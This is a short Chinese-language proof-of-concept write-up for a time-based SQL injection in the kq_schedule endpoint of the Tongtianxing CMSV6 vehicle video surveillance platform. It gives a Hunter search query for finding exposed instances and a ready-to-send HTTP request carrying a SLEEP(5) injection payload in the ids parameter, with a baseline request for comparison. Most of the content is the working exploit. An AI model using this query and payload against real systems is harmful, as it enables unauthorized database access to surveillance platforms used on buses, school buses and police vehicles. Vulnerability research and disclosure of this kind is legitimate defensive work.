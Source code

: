 # 通天星CMSV6车载视频监控平台 kq_schedule存在SQL注入漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台kq_schedule存在SQL注入漏洞，攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/OJGsYbfBirSjQZ9t/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-467613.png)

# 四、漏洞复现
```rust
GET /kq_schedule/delete;downloadLogger.action?ids=1+AND+%28SELECT+9567+FROM+%28SELECT%28SLEEP%285%29%29%29zPmp%29 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717268117442-a6599a3f-e665-4ee0-9364-10de4fcc243d.png](./img/OJGsYbfBirSjQZ9t/1717268117442-a6599a3f-e665-4ee0-9364-10de4fcc243d-156222.png)

```rust
GET /kq_schedule/delete;downloadLogger.action?ids=1 HTTP/1.1
Host: 192.168.31.228
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Connection: close
X-Forwarded-For: 127.0.0.1
Accept-Encoding: gzip, deflate
```

![1717268130763-479651e7-aa3d-4114-afad-91b384dd1840.png](./img/OJGsYbfBirSjQZ9t/1717268130763-479651e7-aa3d-4114-afad-91b384dd1840-531987.png)



> 更新: 2024-12-28 13:05:34  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fmga29xwyqfe0e9h>